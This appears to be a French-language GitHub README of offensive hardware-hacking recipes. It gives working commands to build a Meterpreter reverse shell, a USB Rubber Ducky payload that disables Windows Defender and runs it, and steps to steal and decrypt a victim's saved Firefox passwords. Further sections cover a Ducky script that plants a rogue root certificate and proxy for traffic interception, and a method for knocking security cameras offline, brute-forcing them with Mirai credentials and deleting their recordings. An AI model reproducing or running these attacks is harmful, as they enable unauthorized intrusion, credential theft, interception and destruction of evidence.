

# Ducky Rubber


## Desactiver defender et obtention d'un reverse shell

1) Creer un exe avec:<br>
`msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.123 LPORT=31666 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/mad.exe`

2) Telecharger l'encoder rubber ducky:<br>
`git clone https://github.com/hak5darren/USB-Rubber-Ducky.git`

3) dans ce dossier, creer un fichier [meterpreter.txt](/payload/meterpreter.txt)
Ce script va desactiver windows defender, telecharger et executer notre exe.

4) Compiler pr avoir un fichier inject.bin, qui sera placer dans le rubber-ducky.<br>
`java -jar -i mad.txt -o inject.bin -l fr`<br>
le `-l` specifie le clavier. Si le clavier est en allemand utilisez `-l de`

5) Inserer le inject.bin dans la carte memoire (en root)<br>
`mount /dev/sdb1 /mnt && cp inject.bin /mnt`

5) Lancer metasploit <br>
`msfconsole -x "use multi/handler;set payload windows/meterpreter/reverse_tcp; set lhost 192.168.1.123; set lport 31666; set ExitOnSession false; exploit -j"`.<br>
//31666 ou 53 “DNS is rarely monitored and even more rarely filtered” ^^

6) Plugger le rubber-ducky, attendre 20/30 seconde et nous avons un shell.<br>


### Exemple des que nous avons une session meterpreter 
Recuperer les mots de passe sauvegardés dans firefox:<br>

```
sessions -i 1
powershell
cd /users/<l'user> #(utilisez whoami pr le savoir)
copy-item /users/33768/AppData/Roaming/Mozilla/Firefox/Profiles/*.default-release -destination /windows/temp/mad.default-release -recurse
#creer un zip de ce fichier avec:
Compress-Archive -Path /windows/temp/mad.default-release -DestinationPath /windows/temp/mad.default-release.zip
```

- exit et revener à `meterpreter >`

- Downloader le zip avec:<br>
`meterpreter > Download /windows/temp/mad.default-release.zip /tmp`

- unziper et copier dans le reportoire de firefox:
```
unzip mad.default-release.zip && sudo cp -r mad.default-release /home/<you>/.mozilla/firefox
sudo chown -R <you>:<you> /home/<you>/.mozilla/firefox/mad.default-release
```

- Editer ~/.mozilla/firefox/profiles.ini avec le nouveau profile:

```
[Profile2]
Name=default-release
IsRelative=1
Path=mad.default-release
```

- Ouvrer un nouveau terminal et telecharger firefox-decrypt:
`git clone https://github.com/unode/firefox_decrypt.git`
`cd firefox_decrypt && python firefox_decrypt.py`

- Bingo les mots de passe sauvegardés en claires.<br>
 


## MITMPROXY

Ce [script](/payload/mitm.txt) va ajouter le certificat au "truseted root certificates, et ajouter(ou modifier) le proxy..

a) Sur le serveur de mitmproxy encoder le certificat "celui au format p12" en base64 (celui de windows) avec :<br>
```
powershell> $b64str = [Convert]::ToBase64String([IO.File]::ReadAllBytes($certificatPath))
```

b) Creer un fichier mitm.txt (payload/mimt.txt).
Ceci charge le certificat du server mitm dans les trusted root ca de la cible 

```
S conditionsTRING [IO.File]::WriteAllBytes('C:/Windows/Temp/cert.p12', [Convert]::FromBase64String("MIIEcAIBAzCCBDoGCSqGSIb3DQEHAaCCBCsEggQnMIIEIzCCBB8GCSqGSIb3DQEHBqCCBBAwggQMAgEAMIIEBQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQIKn7/Eg6FTsMCAggAgIID2Jb5bLWzZkMoSQu7/X+KOo03XiM4XoFZn3qX7ezbW88mnXE8DNZmp58NYNL8QtF3htkTluzAG+k9YXkzuygt1FcpaJIq/iNO0KpNvZURoQhvF93IbIyPT50pYS0hpXep9prbyxQdzoLgAncPAsjU/ExS+1xrVuy3Jx1LY3npa+0svCJO9QQC3EDrSzb6xbNvk9hF5SGhhecACuQPmbTj6zjbXVq7hmaj7sneMXihPId5R/QOcF+ctIqMUM6HpMtbTrIjhALPkVjyaLx0fL+JJi3fIUCqoTCY1NRPlWH5DJAwc3Z0efd3ij8/UzuoJqdB3mL3ketmTETQyRq24P+p4P1LHIPe+jAuozHUkVRRCKcS0OEhF9XH9BPw1iSK0Iqq7pNiUdkLH7402ypjTo3L/FXFqeu/MgPvYOtHyixqyB8gDQ+5xTzYzKTAB76v5PkG61ix0IunSFffvtfy0DEuAbv2jUt6wxrYfx1mNsUzUpQAVWLB97d3IPNQDGcYxiKf2UeLGF3IY5mF2qkain4I/bHY0Jj/iDmuy7Gtpx78MbjeQ+vEEdotj9HNVgWaM/Filyf5yvsZKJN1FVTfAbqqGgV4QoT/7wjZjyYWQHqkwNXnls2ZaefHqRBW64OBHMCd9T8WR/9JU06cEhXZfjnQlQIdeZXWsQSFIVaZavAkxavqYD3zdRWA97qRtGo6rnWQUm0b6o11t/dBzsxqqcHhiJ+SpTokRSLtuG9S1Wa040dBUWr3WucBhwTotzWVihDuhZfxUu7MOJtVZnSJpHKEE/MkvNPjVv9TdG0y/ntLaYLhOcl2eKo+OpEfxZm+vDPwj+c6HDh7+3sUsb6nIiE5pUj6udOMYgnq/RA8vYClGvL0o2XsW+KOasoqvr4/e1GihurcRvubusXE/IftH5XvmBHlPSm8R3tupSp02+RZTV7ct+Rw5AM/XVLwXuj4vTAxOXCL/KvdS/HbzeE7L8pxGBhLdeluNV6MpXGdog/Rs8MmAemAxeuMXH+xbux6lgPTLJI8Rm27poQVSPTxN8oQu742CuDkym3lCneS5XR8Zmd0Dnt4OwXVsjc5HykLEFUXutsNUv1BzKXjGknv5FRpIEZ5pIlmf8Nk+Q3urfk/o7Sxug297KTHb61ZgzpiwgCT/R7QV0ZOghNwk/ZnMil5eDY+mHNhBI988wancioLIeC+lK579WUTmTGpO4z10K4A++n8nLSI/P2LG/LoaI+jdLDl3AkKGvu1tqE15FeIe2xLCBYWAVjdq+QwfmaRThHpItcuK01B5DMX2nB66bCy8t2e93i2bRPlhzAtMCEwCQYFKw4DAhoFAAQUUj8Qkw1qHfkW3K+fjyn2nPnhUrMECJdQ7sNKJQNK"))

DELAY 800
ENTER
STRING Start-Process "C:/Windows/Temp/cert.p12"
...
```

Et la, pour ajouter l'addr et le port du server proxy et l'active:

```
STRING $reg = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings"; Set-ItemProperty -Path $reg -Name ProxyServer -Value "192.168.1.19:8080";Set-ItemProperty -Path $reg -Name ProxyEnable -Value 1
DELAY 300
ENTER
```

c) Compilez le script avec `java -jar -i mitm.txt -o inject.bin -l fr` et inserez le das le ducky rubber

d) lancez le server mitm `mitmproxy`

e) Plugguer la clef usb et attendez 20 secondes avant de la retirer.
Maitenant tte les communications sont en claires ...<br>


---

# Packet squirel


1) Formater une clé usb au format ext4 et la plugger dans le packet squirel.<br>

2) Plugguer le Packet Squirel avec bouton en position 1 (tcpdump)<br>

3) Une fois fini (1h/1j/1mois) extraire le pcap de la clé usb et ouvrez le avec whireshark .

4) cherchez quelque chose comme `tcp.port==23` :)<br>


---

# Dos Camera de securité

1) utiliser nmap pour scanner le reseau 192.168.1.0/24 (si sur un reseau local..)

2) Si les ports 23 et/ou 80 (optionnel mais tres souvent) et 554 (ou variantes telles que 1555,5554 ..), il y a de forte de chance qu'il sagisse de camera de securité ..

3) A partir de la utilisez simplement (en root) `blacknurse <l'ip de la camera>`.<br>
En moins de 5seconde la camera arretera d'enregistrer (ou du moins de transmettre de les images

4) Une attaque par dictionnaire comme du malware mirai (60 combinaison, dc assez court) ( [ici](https://raw.githubusercontent.com/tennc/fuzzdb/master/wordlists-user-passwd/Mirai-name-pwd/name-pwd.list) ) peut avoir de grande chance de vous donner un acces root sur la camera. (de moins en moins , mais un rapide tour sur shodan, vous fera constater que cela marche encore tres bien quand meme).<br>
Une fois en root rentrez `poweroff` ou `find / -name "*.mp4" -type f -delete`.<br>
Ou explorez le reste du reseau.. free to you
// Marche aussi pr les radios internet, si les gouts musicaux de vos collegues ne vous conviennent pas ^^

# Le lockpicking

Pour mettre en place les attaques si dessus ... <br>


